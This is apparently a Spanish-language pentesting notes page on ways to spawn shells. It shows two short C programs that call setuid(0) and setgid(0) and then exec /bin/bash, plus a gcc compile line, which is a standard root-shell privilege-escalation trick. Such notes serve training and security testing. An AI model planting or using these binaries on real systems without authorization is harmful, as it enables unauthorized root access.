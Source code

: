 # Introducción:
En está sección vamos a colocar todas aquellas formas o vias de realizar shells, en diferentes lenguajes y formas:

## Lenguaje C:
- Fichero que abre una sesión de shell en la terminal actual:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0); //Trata de forzar que el uid sea 0, es decir el de root (requiere privilegios)
    setgid(0); //Trata de forzar que el grupo sea 0, es decir el de root (requiere privilegios)
    execl("/bin/bash", "bash", NULL); //Sustituye el PID actual y corre el fichero "/bin/bash" llamandolo "bash", sí es una ruta relativa ira a leer "PATH"
    return 0;
}
```
- Ejecución de comando sin abrir shell:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0); //Trata de forzar que el uid sea 0, es decir el de root (requiere privilegios)
    setgid(0); //Trata de forzar que el grupo sea 0, es decir el de root (requiere privilegios)
    execl("/bin/bash", "bash", "-c", "echo hi", (char *)NULL); //Sustituye el PID actual y corre el comando con argumentos
    return 0;
}
```
- Compilarlo:
```
gcc file.c -o exec.elf
```


